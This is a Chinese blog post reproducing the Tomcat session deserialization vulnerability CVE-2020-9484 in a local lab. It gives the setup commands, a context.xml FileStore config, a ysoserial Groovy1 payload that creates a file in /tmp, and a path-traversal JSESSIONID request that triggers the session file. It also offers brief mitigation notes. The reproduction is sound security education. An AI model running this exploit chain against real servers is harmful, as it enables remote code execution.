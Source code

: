 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkyMTQyMzkyMg==&mid=2247484088&idx=1&sn=f13ac7cd62bbe9b5e73a0f561c8dd6f3

#  CVE-2020-9484 Tomcat Session 反序列化复现  
原创 TEST安全  TEST安全   2025-06-23 09:07  
  
一、漏洞概述  
  
　　Apache Tomcat发布通告称修复了一个源于持久化Session的远程代码执行漏洞（CVE-2020-9484）。  
  
漏洞条件比较苛刻：  
- tomcat必须启用session持久化功能FileStore  
  
- tomcat/lib或者WEB-INF/lib目录下的依赖存在可用的gadget  
  
- 在服务器上存在已知路径文件内容可控  
  
二、影响版本  
- Apache Tomcat: 10.0.0-M1 to 10.0.0-M4  
  
- Apache Tomcat: 9.0.0.M1 to 9.0.34  
  
- Apache Tomcat: 8.5.0 to 8.5.54  
  
- Apache Tomcat: 7.0.0 to 7.0.103  
  
三、漏洞复现  
  
漏洞复现环境:centos7.6  
  
下载Tomcat相应的版本，且解压到/soft/文件中（新建）  
  
https://archive.apache.org/dist/tomcat/tomcat-9/v9.0.0.M1/bin/apache-tomcat-9.0.0.M1.zip  

```
mkdir /soft
wget https://archive.apache.org/dist/tomcat/tomcat-9/v9.0.0.M1/bin/apache-tomcat-9.0.0.M1.zip
mkdir /tomcat90m1
unzip apache-tomcat-9.0.0.M1.zip -d /soft/tomcat90m1
```

  
解压后我的路径如图   
  
![CVE-2020-9484 Tomcat Session 反序列化复现](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvu8K70N0OcMfpOLQVCnj5OKLlbLTFFjnG7I6HKvnHxp1jNM3TaOSGKiaLKQv8XwiaX0xpkGbLN5PxCcA/640?wx_fmt=jpeg&from=appmsg "CVE-2020-9484 Tomcat Session 反序列化复现插图")  
  
修改文件/soft/tomcat90m1/apache-tomcat-9.0.0.M1/conf/context.xml     
添加Manager（session 持久化设置）  
添加如下内容:  

```
 <Manager className=&#34;org.apache.catalina.session.PersistentManager&#34; sessionAttributeValueClassNameFilter=&#34;.*&#34;>
         <Store className=&#34;org.apache.catalina.session.FileStore&#34; directory=&#34;/soft/&#34; />
    </Manager>




```

  
添加后内容如图:  
  
   
  
![CVE-2020-9484 Tomcat Session 反序列化复现](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvu8K70N0OcMfpOLQVCnj5OKLSB8X6E5MwcVSFP3cFWU0mZDa7nLEGbo7CYsOS9g7o4sY2tHql17A6A/640?wx_fmt=jpeg&from=appmsg "CVE-2020-9484 Tomcat Session 反序列化复现插图1")  
  
在目录/soft/tomcat90m1/apache-tomcat-9.0.0.M1/lib   
下载groovy-2.3.9.jar包(别的包也可以，比如commons-collections4-4.0.jar，不过换包的话，**后面对应生成的payload命令也要相应变一下**  
)  

```
wget https://repo1.maven.org/maven2/org/codehaus/groovy/groovy/2.3.9/groovy-2.3.9.jar


```


```
如果您在后面使用payload是CommonsCollections1 则包就用commons-collections4-4.0.jar
```

  
如图两个包至少要下载其中一个放到该目录/soft/tomcat90m1/apache-tomcat-9.0.0.M1/lib  
  
   
  
  
![CVE-2020-9484 Tomcat Session 反序列化复现](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvu8K70N0OcMfpOLQVCnj5OKLMYJSUicdcN6v3v82WPelMWqxL1OUYPARU0042iazeGA8OBu2tZZ936zw/640?wx_fmt=jpeg&from=appmsg "CVE-2020-9484 Tomcat Session 反序列化复现插图2")  
  
配置tomcat环境变量  

```
vi /etc/profile
```

  
添加下面几行到/etc/profile文件如图:  

```
export JAVA_HOME=/usr/lib/jvm/java-1.8.0-openjdk
export CATALINA_BASE=/soft/tomcat90m1/apache-tomcat-9.0.0.M1
export CATALINA_HOME=/soft/tomcat90m1/apache-tomcat-9.0.0.M1
export PATH=$JAVA_HOME/bin:$CATALINA_HOME/bin:$PATH
export CLASSPATH=.:$JAVA_HOME/lib/dt.jar:$JAVA_HOME/lib/tools.jar


```

  
![CVE-2020-9484 Tomcat Session 反序列化复现](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvu8K70N0OcMfpOLQVCnj5OKL191w0Kx7WAo8UOTjGQyaMiadIxYmFrRicpCrgW4Tuou2EP46ahXZw4ew/640?wx_fmt=jpeg&from=appmsg "CVE-2020-9484 Tomcat Session 反序列化复现插图3")  
  
   
  
运行Tomcat  

```
cd /soft/tomcat90m1/apache-tomcat-9.0.0.M1/bin
chmod 777 catalina.sh
./catalina.sh start
```

  
启动后再浏览器访问8080端口，这个页面出来说明已经成功  
  
   
  
![CVE-2020-9484 Tomcat Session 反序列化复现](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvu8K70N0OcMfpOLQVCnj5OKLrWxe3iaqTbicFXXBr5Cx9OyaS0jIvtdTPZYohtIo9ibA4lQNDjFq4JUOg/640?wx_fmt=jpeg&from=appmsg "CVE-2020-9484 Tomcat Session 反序列化复现插图4")  
  
   
  
使用github上的ysoserial工具在本地生成反序列化session文件，生成commons-collections4依赖的gadget恶意序列化数据(下面两种下载方式任选其1)：  

```
https://github.com/frohoff/ysoserial


https://www.xsssql.com/wp-content/uploads/2025/06/ysoserial-all.zip
```

  
下载完成之后再本地生成session文件  

```
java -jar P:CVEysoserial-all.jar Groovy1 &#34;touch /tmp/Test安全&#34; > xsssql.session


```

  
![CVE-2020-9484 Tomcat Session 反序列化复现](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvu8K70N0OcMfpOLQVCnj5OKLu8icOiawyE2GYhpgrxnNktrNxOtKU8DOdTFJbYCz1XoRsQSg4veo7iaHQ/640?wx_fmt=jpeg&from=appmsg "CVE-2020-9484 Tomcat Session 反序列化复现插图5")  
  
   
  
   
  
将这个xsssql.session文件上传到/soft目录(在/soft/tomcat90m1/apache-tomcat-9.0.0.M1/conf/context.xml文件里面配置了session会话存放的目录为/soft)，此时的tmp目录我并没有放session文件，如图  
  
![CVE-2020-9484 Tomcat Session 反序列化复现](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvu8K70N0OcMfpOLQVCnj5OKLkOU8l45pWVETbFvpIOAHMjJbyicpEKxia4JKbcM54QPWZBrNR6TVNf7w/640?wx_fmt=jpeg&from=appmsg "CVE-2020-9484 Tomcat Session 反序列化复现插图6")  
  
使用burp重放数据包，注意修改数据包中的Host: 127.0.0.1:8080(或直接在浏览器访问这个网站，tomcat将自动加载.session文件至内存)  

```
GET / HTTP/1.1
Host: 127.0.0.1:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Cookie: JSESSIONID=../../../../../../../../../soft/xsssql
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close






```

  
![CVE-2020-9484 Tomcat Session 反序列化复现](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvu8K70N0OcMfpOLQVCnj5OKLj1apHMpF4kHmLeZxQfvM54gG40icaaM0dknKQyPLSjzwbtd5hCExZKg/640?wx_fmt=jpeg&from=appmsg "CVE-2020-9484 Tomcat Session 反序列化复现插图7")  
  
重放之后查看刚刚传到/soft/xsssql.session文件已经消失，在/tmp目录中创建了一个 "Test安全" 的文件，如图:  
  
![CVE-2020-9484 Tomcat Session 反序列化复现](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvu8K70N0OcMfpOLQVCnj5OKL7WF0Ie7w6TGVfnPv4Ln2QMGv3BDwdGd2yZ1wKK00w16zY7FVAhotcA/640?wx_fmt=jpeg&from=appmsg "CVE-2020-9484 Tomcat Session 反序列化复现插图8")  
  
   
  
总结:  
  
根据测试，其实上面burp请求的数据包完成不用发也是可以导致漏洞触发成功，只需要通过浏览器访问这个网站即可，在访问这个网站的时候tomcat将自动加载写入的/soft/xsssql.session文件至内存，直接导致反序列化执行命令，要想使用该在漏洞则可以通过任意文件上传覆盖 context.xml文件，对于其他文章有说过滤../字符其实用途可能不大，原因不需要发送../的数据则可以导致漏洞触发，修复方案限制其他进程对context.xml文件写权限，  
不使用 FileStore  
  
  
